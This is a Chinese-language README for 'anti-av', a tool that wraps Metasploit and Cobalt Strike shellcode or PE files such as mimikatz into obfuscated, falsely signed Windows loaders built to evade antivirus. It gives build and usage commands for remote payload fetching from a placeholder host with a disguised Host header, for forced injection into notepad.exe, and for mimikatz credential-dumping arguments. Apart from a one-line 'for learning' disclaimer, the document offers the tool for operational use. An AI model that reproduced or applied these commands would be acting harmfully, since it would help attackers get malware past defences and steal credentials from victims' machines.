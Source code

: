 # ANTI-AV

## 免责

本工具学习使用.

## 描述
* shellcode*免杀加载，*payload*支持**msf** (-f raw)和**cs**(payload raw)

* 任意执行文件免杀加载，payload为pe格式

  ​	注意：执行免杀时，如果不带参数可以绕过av监测，带参数的那啥目前测试defender过不了，估计有参数黑名单）


## 安装

### Requirement

```bash
1、建议使用Mac或linux环境（推荐）

2、安装交叉编译 mingw64(必须)

3、混淆工具garble(必须)

4、nasm （必须）

5、安装签名 openssl、osslsigncode（非必须）
```

### anti-av

```bash
git clone https://github.com/b1gcat/anti-av.git
go build

Usage of ./anti-av:
  -arch string
        生成文件格式amd64,386 (default "386")
  -asm
        asm调用敏感函数
  -e    生成payload.e
  -ho string
        远程加载payload.e时,在GET请求头中替换host实现流量混淆 (default "wwww.baidu.com")
  -l string
        支持的加载类型: sc (default "sc")
  -mode string
        支持normal,inject (default "normal")
  -nosign
        关闭签名
  -o string
        输出文件名字 (default "output.exe")
  -os string
        OS: windows,linux (default "windows")
  -p string
        Payload: 
                1.支持 远程远程加载payload.e(参考payload.e生成实例)
                2.支持MSF payload generate by '-f raw'.
                3.支持CS raw payload.
                 (default "payload.bin")
  -v string
        签名: baidu.com 或 nvidia_leak (default "nvidia_leak")

```



## 使用方案



| 形态              | 说明                    | 生成命令                                                     |
| ----------------- | ----------------------- | ------------------------------------------------------------ |
| 自解密   | 无                      | ./anti-av -p ~/Desktop/payload.bin                         |
| 远程加载 | 无                      | 1、生成payload.e<br />./anti-av  -e -p ~/Desktop/payload.bin    <br /><br />2、上传payload.e到公共下载服务<br />略<br /><br />3、制作加载器<br />./anti-av -p http://x.x.x.x/payload.e |
| 进程注入          | 会强制注入到notepad.exe | ./anti-av -p ~/Desktop/payload.bin -inject 或<br /><br />./anti-av -p http://x.x.x.x/payload.e  -inject |
| 加载pe文件 |  | ./anti-av -l pe -p ~/Downloads/mimikatz_trunk_x64/x64/mimikatz.exe |



## 注意

* CS生成raw格式64位 payload，需要勾选x64

* PE加载时如果带参数例如: `anttav_windows_amd64 "privilege::debug" "sekurlsa::logonpasswords" "exit"`,此时会被拦截。

